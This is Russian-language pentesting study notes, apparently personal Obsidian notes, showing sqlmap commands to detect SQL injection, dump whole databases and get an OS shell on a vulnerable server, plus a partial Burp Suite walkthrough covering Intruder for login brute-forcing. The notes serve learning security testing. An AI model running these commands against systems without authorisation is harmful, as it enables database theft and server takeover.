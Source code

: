 Сейчас сканеры автоматизированно ищут SQLi, причём довольно хорошо. Самая компактная утилита для поиска и эксплуатации таких уязвимостей - sqlmap.
_____
### sqlmap
sqlmap - это консольная утилита для поиска и эксплуатации SQLi уязвимостей.
Например, у нас есть статья по адресу `https://goodnews1337.ru/news.php?id=37` и мы хотим протестировать параметр id. Для этого мы можем ввести следующую команду:
```
$ sqlmap -u https://goodnews1337.ru/news.php?id=37 -p "id"
```
Часто используемые параметры параметры:
| Параметр   | Что делает                          |
| ---------- | ----------------------------------- |
| -u         | атакуемыйURL                        |
| -p         | атакуемый GET параметр              |
| --dbms     | указать тип БД                      |
| --dump     | Слить все данные из всех таблиц     |
| --os-shell | Получить доступ к коммандной строке |
Таким образом, еслы была найдена уязвимость, мы можем слить все данные следующей коммандой:
```
$ sqlmap -u https://goodnews1337.ru/news.php?id=37 -p "id" --dbms=mysql --dump
```
Более того, мы можем попытаться получить доступ к коммандной строке на уязвимом сервере с помощью команды:
```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
sqlmap умеет ещё много всего, но этому уже лучше будет научиться самостоятельно.
_____
# Инструменты
_____
## Burp Suite
______
### Выбор цели
Сначала необходимо выбрать цель, для этого необходимо перейти в модуль Target, на вкладку Scope. Тут можно добавлять и исключать адреса тестирования. 
![[Pasted image 20230331123619.png]]
Также в этом модуле, на вкладке Site map можно посмотреть все уязвимости, найденные на каждом отдельно взятом сайте и составить для них отчёт.
Для составления отчёта, нужно выбрать все уязвимости, нажать правую кнопку мыши и выбрать Report Selected items.
![[Pasted image 20230331123922.png]]
______
### Proxy
В разделе Proxy(1) можно управлять встроенным в Burp прокси-сервером.
Во вкладке Intercept(2) можно на ходу смотреть и изменять запросы, идущие к сайту.
Перехват запросов можно отключить кнопкой 3. Отправить текщий запрос можно кнопкой 4. Удалить запрос можно кнопкой 5. С помощью кнопки 6 можно перенаправить запрос в другие модули Burp для дальнейшей работы. Во вкладке HTTP history(7) можно посмотреть историю запросов.
![[Pasted image 20230331112714.png]]
______
### Intruder
В данный модуль можно отправить запрос из других модулей. Он позволяет автоматизировать тестирование. Мы можем выбрать кусок запроса и настроить словарь, который будет подставляться вместо этого куска запроса. Чаще всего это используется для подбора логинов и паролей.
Сначала выделяем нужные части запроса, в нашем случае это логин и пароль и нажимем Add &. После этого выбераем тип атаки.
